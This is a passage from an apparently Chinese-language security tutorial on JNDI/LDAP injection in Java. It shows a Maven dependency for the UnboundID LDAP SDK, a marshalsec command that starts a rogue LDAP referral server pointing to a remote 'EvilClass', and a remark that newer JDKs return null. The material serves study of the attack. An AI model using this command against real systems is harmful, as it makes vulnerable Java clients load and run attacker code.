 ```plain
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

[![ldap_low1.png](assets/1699929760-1e98e432506a137b9576fe65cb51800c.png)](https://storage.tttang.com/media/attachment/2022/05/25/9c33caac-baca-4c40-a6f6-cbb5137ec1c6.png)

#### [工具](#toc__6)

也可以使用`marshalsec`开启`LDAP`服务

```plain
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#EvilClass
```

[![ldap_low2.png](assets/1699929760-29770139225150e590ee02c81ebb9bbb.png)](https://storage.tttang.com/media/attachment/2022/05/25/4d0c66d6-eb8d-409b-89c3-ae986aa12f97.png)  
使用高版本后，返回`null`  
[![ldap_low3.png](assets/1699929760-1058a4b7d7808927b9e594aa44ee9e83.png)](https://storage.tttang.com/media/attachment/2022/05/25/fe55d8c3-fb54-448b-adcd-e609768ac3c7.png)
